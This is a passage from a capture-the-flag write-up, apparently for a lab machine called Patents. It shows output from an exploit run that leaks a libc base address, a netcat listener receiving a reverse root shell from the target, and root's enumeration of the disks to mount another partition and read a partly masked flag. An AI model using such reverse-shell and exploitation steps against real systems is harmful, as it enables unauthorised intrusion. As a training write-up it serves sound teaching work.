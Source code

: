 ```python
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Leaked libc-base: 0x7f6f4454f000
[+] Found fd: 6
[*] Setup your listener! [nc -lvnp 443]
Send payload? [Y/n]

root@silence:~# nc -lvnp 443
listening on [any] 443 ...

connect to [10.10.14.23] from (UNKNOWN) [10.10.10.173] 59558
bash: cannot set terminal process group (1248): Inappropriate ioctl for device
bash: no job control in this shell
root@patents:/opt/checker_server#
```
Now that we have a shell, let us read `root.txt`.
```bash
root@patents:~# ls -alh
ls -alh
total 23K
drwxr-xr-x  7 root root 1.0K Dec  3 14:25 .
drwxr-xr-x 23 root root 4.0K Jan 12 00:03 ..
lrwxrwxrwx  1 root root    9 May 22  2019 .bash_history -> /dev/null
drwx------  2 root root 1.0K May 21  2019 .cache
drwx------  3 root root 1.0K May 21  2019 .gnupg
drwxr-xr-x  3 root root 1.0K Dec  3 14:25 .local
drwx------  2 root root  12K May 21  2019 lost+found
drwxr-xr-x  3 root root 1.0K May 21  2019 snap
-rw-------  1 root root 1.6K May 22  2019 .viminfo
```
Seems like the `root.txt` is not here! Let us enumerate the machine to find the root.txt.

## Enumerating the server to find root.txt
```bash
root@patents:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 54.9M  1 loop /snap/lxd/12631
loop1    7:1    0 66.7M  1 loop /snap/lxd/9239
loop2    7:2    0 89.1M  1 loop /snap/core/8268
loop3    7:3    0 54.2M  1 loop /snap/lxd/10756
loop4    7:4    0 89.1M  1 loop /snap/core/8039
sda      8:0    0   25G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0   16G  0 part /
├─sda3   8:3    0    1G  0 part /boot
└─sda4   8:4    0    2G  0 part /home
sdb      8:16   0  512M  0 disk
└─sdb1   8:17   0  511M  0 part /root
sr0     11:0    1 1024M  0 rom
```
Listing all disks, we can see that sda2 is mounted on `/`, but sdb1 is mounted on root.
Let us mount sda2 on `/mnt/` and see if we find root.txt then.
```bash
root@patents:~# mount /dev/sda2 /mnt/
root@patents:~# cd /mnt/root/; ls
root.txt
secret
snap
```
Now that we have mounted sda2, we can finally read root.txt.
```bash
root@patents:/mnt/root# cat root.txt
d63b0***************************
root@patents:/# umount /mnt/
```